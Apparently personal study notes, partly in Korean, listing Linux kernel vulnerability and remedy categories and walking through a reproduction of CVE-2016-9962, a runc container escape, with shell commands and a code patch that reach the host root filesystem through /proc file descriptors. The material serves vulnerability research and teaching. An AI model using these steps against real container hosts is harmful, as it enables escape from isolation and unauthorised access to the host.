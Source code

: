 +++
title  = "vulnerability"
toc    = true
weight = 0
+++

## Taxonomy of Linux Kernel Vulnerability Solutions
### Input Validation Error
- Buffer Overflow
- Boundary Condition Error
- Access Validation Error
- Exceptional Condition Handling Error
- Environmental Error
- Configuration Error
- Design Error
- Nonstandard

## Remedial Classification
- Change of Data Types
- Precondition Validation
- Ensuring Atomicity
- Error Handling
- Zeroing Memory
- Freeing Resources
- Input Validation
- Capability Validation
- Fail-Safe
- Protection Domain Enforcement
- Redesign
- Other

### Exploit
## Null Dereferencing
```bash
vm.mmap_min_addr
```

## Stack Overflow

## Heap Overflow

## Heap Spray

## CVE-2016-9962
reproduction step described at [here](http://blog.aquasec.com/cve-2016-9962-run-container-run?utm_campaign=General+website&utm_source=hs_email&utm_medium=email&utm_content=40788539&_hsenc=p2ANqtz-9bJB-5FMxtRupfFhdHc-5UIe4XTZ1aBfq-2vE_ecMgY8Ud681CniwE-R3wDJ8sfClDxW0tj77e-hr6GIinbqBMFo0omg&_hsmi=40788539)

```bash
$ cd $GOPATH/src/github.com
$ git clone https://github.com/opencontainers/runc opencontainers/runc
$ git fetch origin 2cc5a91249ab3b362f1235da955d112017979d34
$ git checkout origin 2cc5a91249ab3b362f1235da955d112017979d34
$ vi $GOPATH/src/github.com/opencontainers/runc/libcontainer/setns_init_linux.go
```

아래 2개 line을 수정한다.
```diff
package libcontainer

import (
  "fmt"
  "os"

  "github.com/opencontainers/runc/libcontainer/apparmor"
  "github.com/opencontainers/runc/libcontainer/keys"
  "github.com/opencontainers/runc/libcontainer/label"
  "github.com/opencontainers/runc/libcontainer/seccomp"
  "github.com/opencontainers/runc/libcontainer/system"
+ "time"
)
```
```diff
  if err := label.SetProcessLabel(l.config.ProcessLabel); err != nil {
    return err
  }

+ time.Sleep(500 * time.Second)
  return system.Execv(l.config.Args[0], l.config.Args[0:], os.Environ())
}
```
container를 생성한다.
```bash
sh1$ docker pull alpine
sh1$ docker create --name alpine alpine
sh1$ mkdir rootfs
sh1$ docker export alpine | tar xvfC - rootfs/
sh1$ runc spec
sh1$ runc run ctr
```
terminal을 새로 열고 container 내부에 process를 생성한다.
```bash
sh2$ runc exec ctr sh
```
여기서 500 초가량 block된다.
다시 첫번째 terimnal로 돌아간다.
```bash
sh1$ ps aux
sh1$ ls /proc/18/fd -la
sh1$ ls -la /proc/18/fd/4/../../..
```
위와 같은 방식으로 Host의 rootfs에 접근이 가능하다.

